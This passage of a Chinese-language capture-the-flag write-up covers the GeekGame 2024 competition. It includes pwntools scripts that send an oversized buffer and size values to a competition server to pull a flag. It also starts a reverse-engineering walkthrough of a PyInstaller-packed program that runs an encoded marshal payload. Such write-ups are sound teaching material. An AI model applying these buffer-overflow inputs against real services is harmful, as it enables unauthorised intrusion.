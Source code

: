 ```python
from pwn import *
a = b'4'
b = b'a'*0x102
c = b'49'
p = remote('prob11.geekgame.pku.edu.cn', 10011)
print(p.recvuntil(b'Please input your token:'))
p.sendline(b'[your:token]')
print(p.recvuntil(b"please enter the size to output your flag: "))
print(f'> {a}')
p.sendline(a)
print(p.recvuntil(b"please enter the content to read to buffer (max 0x100 bytes): "))
print(f'> {b}')
p.sendline(b)
print(p.recvuntil(b'please enter the size to read to the buffer:'))
print(f'> {c}')
p.sendline(c)
p.interactive()

# 别人的解法
# https://ouuan.moe/post/2024/10/geekgame-2024#fast-or-clever
from pwn import *
import sys

p = remote('prob11.geekgame.pku.edu.cn', 10011)
p.sendlineafter(b': ', b'1549:token')
p.sendlineafter(b': ', b'4')
p.sendlineafter(b': \n', b'A')
p.sendline(b'100')
p.interactive()
```

## [[Binary] 从零开始学Python](https://github.com/PKU-GeekGame/geekgame-4th/tree/master/official_writeup/binary-pymaster)

### Flag1

先是发现可执行文件是通过 PyInstaller 打包的，于是通过在线工具 [PyInstaller Extractor WEB](https://pyinstxtractor-web.netlify.app/) 解包，解包后的的 pyc 文件就是我们需要分析的。

我们可以使用 [python-uncompyle6](https://github.com/rocky/python-uncompyle6) 来反编译 pyc 文件。

```powershell
uncompyle6.exe -o . .\*.pyc
```

可得到 pymaster.py 文件

```python
import marshal, random, base64

if random.randint(0, 65535) == 54830:
    exec(marshal.loads(base64.b64decode(b'YwAAAGU+A......KAAAABAEBEP8C/w==')))
```


[2024:09:30:17:14:34]: Debug: --begin keyboard packet--